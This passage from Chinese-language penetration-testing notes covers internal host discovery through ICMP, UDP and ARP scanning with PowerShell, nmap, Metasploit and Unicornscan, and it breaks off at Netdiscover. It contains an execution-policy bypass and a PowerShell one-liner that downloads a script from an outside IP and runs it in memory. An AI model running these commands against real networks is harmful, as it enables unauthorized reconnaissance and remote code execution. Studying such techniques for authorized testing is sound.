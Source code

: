 3. powershell扫描

   - 使用powershell脚本进行ICMP探测，可以指定起始和结束地址，以及扫描的端口

   - 本地加载

     ```powershell
     powershell.exe ‐exec bypass ‐Command "Import‐Module ./Invoke‐TSPingSweep.ps1; Invoke‐TSPingSweep ‐StartAddress 192.168.1.1 ‐EndAddress 192.168.1.254 ‐ResolveHost ‐ScanPort ‐Port 445,135"
     ```

   - 远程加载

     ```powershell
     powershell iex(new-object net.webclient).downloadstring('http://47.104.255.11:8000/Invoke-TSPingSweep.ps1');Invoke-TSPingSweep -StartAddress 10.10.10.1 -EndAddress 10.10.10.254 -ResolveHost -ScanPort -Port 445,135
     ```

### 3. UDP协议探测

1. nmap

   ```bash
   nmap -sU –T4 -sV --max-retries 1 192.168.1.100 -p500
   # -sU UDP扫描
   # -T4 速度
   # --max-retries 1 重试次数
   # -p500 端口500
   ```

2. metasploit

   ```bash
   use auxiliary/scanner/discovery/udp_probe
   use auxiliary/scanner/discovery/udp_sweep
   ```

3. Unicornscan

   ```bash
   unicornscan -mU 192.168.1.100
   ```

### 4. ARP协议探测

1. nmap扫描

   ```bash
   nmap -sn -PR 192.168.1.1/24
   ```

2. MSF

   ```bash
   use auxiliary/scanner/discovery/arp_sweep
   ```

3. Netdiscover
